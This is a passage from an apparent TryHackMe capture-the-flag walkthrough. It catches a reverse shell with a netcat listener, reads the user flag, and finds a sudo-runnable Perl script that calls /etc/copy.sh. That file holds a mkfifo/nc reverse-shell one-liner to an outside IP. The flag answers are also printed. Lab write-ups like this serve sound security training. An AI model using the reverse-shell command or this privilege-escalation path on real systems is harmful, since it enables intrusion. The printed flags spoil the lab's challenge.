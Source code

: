 Let's check our listener.

```
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.37.233] 60656
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 07:02:32 up  1:22,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We can now `cat` out the user flag.

```
$ cat /home/itguy/user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

### Answer

```
THM{63e5bce9271952aad1113b6f1ac28a07}
```

###

### What is the root flag?

Let's check what commands our user can execute as root using the `sudo -l` command.

```
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

So we can run the `backup.pl` script as root without any password. Let's check what the script does.

```
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

The `./backup.pl` script executes the `/etc/copy.sh` script. Let's check what that script does.

```
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
